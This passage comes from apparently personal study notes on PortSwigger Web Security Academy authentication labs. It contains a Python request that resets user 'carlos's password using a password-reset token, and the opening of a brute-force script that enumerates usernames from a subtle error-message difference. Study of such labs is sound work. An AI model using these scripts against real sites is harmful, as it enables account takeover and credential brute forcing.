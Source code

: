 ```python
  

data = {

"temp-forgot-password-token":temptoken,

"username":"carlos",

"new-password-1":"test",

"new-password-2": "test"

}

  

url = f"https://0ac8007504f02472c0c8806800b50039.web-security-academy.net/forgot-password?temp-forgot-password-token={temptoken}"

  

r = requests.post(url=url, proxies=proxies, verify=False, data=data)
```

# FUFF
Instead of using python script for brute forcing, you can use **fuff**. In the next lab, there is a showcase part that demonstrates how you should use it to brute force web applications.

---

# Lab: Username enumeration via subtly different responses
**Description**

![[Pasted image 20220622204359.png]]

Application returns an error message as **"Invalid username or password."** when you enter invalid username or password. however when you enter a valid username it returns same error message **without dot**("Invalid username or password") at the very end. With using this behaviour we can enumerate valid usernames.

```python
import requests

  

with open("usernames") as fp:

USERNAMES = fp.read()

l_username = USERNAMES.split()

  

with open("passwords") as fp:

USERNAMES = fp.read()

l_password = USERNAMES.split()

  

VALID_USERNAME = ""
```